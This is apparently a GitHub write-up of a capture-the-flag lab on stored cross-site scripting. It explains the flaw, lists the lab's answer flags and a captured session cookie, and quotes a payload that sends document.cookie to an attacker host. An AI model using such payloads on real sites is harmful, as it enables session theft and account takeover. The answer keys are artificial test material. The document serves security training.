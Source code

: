 # Stored XSS

**To see which HTML/JavaScript payloads are being used to do the task please refer [this folder](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/04%20-%20Stored%20XSS/Sample%20Payloads).** <br>
- Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the website's database. This often happens when a website allows user input that is ***not sanitised*** (remove the **"bad parts"** of a user's input) when inserted into the database.
   
  ![Screenshot (820)](https://user-images.githubusercontent.com/63872951/183843240-6955d1d5-1a23-42e6-8be3-67dbf8544db7.png)
 
- A attacker creates a payload in a field when signing up to a website that is stored in the websites database. 
- If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload **to everyone** who visits it. 
- The payload could be as simple as `<script>alert(1)</script>`
- However, this payload won't just execute in your browser but any other browsers that display the malicious data inserted into the database.


# Answer the questions below

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

1. Add a comment and see if you can insert some of your own HTML.

Doing so will reveal the answer to this question.
```
HTML_T4gs
```
2. Create an alert popup box appear on the page with your document cookies.
```
W3LL_D0N3_LVL2
```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```
websites_can_be_easily_defaced_with_xss
```
4. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

   `<script>window.location='http://attacker/?cookie='+document.cookie</script>`

   This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

   Take over Jack's account by stealing his cookie, what was his cookie value?
```
s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE
```
5. Post a comment as Jack.
```
c00ki3_stealing_
```

# The Next Steps

- Click [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20Stored%20XSS/Stored%20XSS%20Approach) to see how to move further in a stored XSS attack.

# Scripts used to exploit

- Click below to see which scripts/payloads were used in finding the answers to complete this task:

   - [Question 2](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/1%20-%20Q2.html)
   - [Question 3](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/2%20-%20Q3.js)
   - [Question 4](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20Stored%20XSS/Used%20Payloads/3%20-%20Q4.js)
 

